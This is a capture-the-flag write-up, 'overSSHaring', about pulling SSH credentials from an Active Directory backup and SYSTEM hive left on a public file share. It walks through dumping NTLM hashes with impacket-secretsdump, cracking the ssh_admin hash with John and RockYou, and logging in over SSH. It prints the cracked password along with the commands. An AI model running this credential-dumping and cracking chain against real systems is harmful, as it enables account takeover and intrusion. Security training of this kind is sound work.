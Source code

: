 # overSSHaring — Networking Challenge Write-Up

> **Category:** Networking   |   **Points:** 200 (Medium)

---

## 0  Scenario Overview

The North Torbians accidentally exposed an Active Directory backup and SYSTEM hive via a public file share at `https://msoidentity.com/files/`. My goal was to leverage these artifacts to extract SSH credentials and retrieve the flag.

## 1  Recon & Preliminary Analysis

I mirrored the share and listed its contents:

```bash
wget -r -np -nH --cut-dirs=1 -R "index.html*" https://msoidentity.com/files/
tree -L 1
```

```
.
├── 46381.py
├── 46467.txt
├── 51632.py
├── 51697.txt
├── backup                # 16 MiB – ESE database (AD backup)
├── config.json
├── configuration_deepseek.py
├── log.txt
├── opsec.txt
└── sys                   # 15 MiB – SYSTEM registry hive
```

- **log.txt** / **opsec.txt** mentioned reused passwords `s0ju` and `winter2024`.
- **config.json** was just a model config—no credentials.
- The critical files were **backup** (ESE) and **sys** (registry hive).

### 1.1  Failed Preliminary Attempts

Before dumping hashes, I tried a few direct approaches:

- **Tried SSH with known passwords** (`s0ju`, `winter2024`, and `winter2024!`) manually against common usernames → **Permission denied**.
- **Inspected **`` and Python scripts for hardcoded creds → none found.
- **Built a tiny custom John wordlist** with `s0ju`, `s0ju!`, `winter2024`, `winter2024!` → no hashes cracked.

These failures confirmed I needed to extract the underlying NTLM hashes.

---

## 2  Extracting NTLM Hashes

1. Identify file types:

   ```bash
   file backup   # ESE database
   file sys      # Windows registry hive
   ```

2. Dump NTLM hashes offline with Impacket:

   ```bash
   impacket-secretsdump -ntds backup -system sys LOCAL > ntds.txt
   grep ssh_admin ntds.txt
   ```

```
torbintime.local\ssh_admin:1114:...:8dbd9a82a5d6f6bc4124d05d247883a0:::
```

---

## 3  Cracking the Password

I started with a tiny wordlist:

```bash
printf "%s\n" s0ju s0ju! winter2024 winter2024! > custom.txt
john --format=NT --wordlist=custom.txt ssh_admin.hash
```

No hashes cracked. Next, I installed RockYou:

```bash
sudo apt install wordlists
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ssh_admin.hash
john --show ssh_admin.hash
```

John revealed:

```
ssh_admin:jucheteamo
```

---

## 4  SSH & Flag Retrieval

```bash
ssh ssh_admin@msoidentity.com
# Password: jucheteamo
cat ~/flag.txt
```

```
C1{f0ll0wing_th3_l34d5}
```

---

## 5  Lessons Learned

- **Public shares can leak whole AD backups.** ESE + SYSTEM → full credential dump.
- **Chat logs as cribs** accelerate cracking strategies.
- **Minimal tooling** (Impacket + John) remains effective.
- Disable `PasswordAuthentication yes` or rotate to key-only SSH.


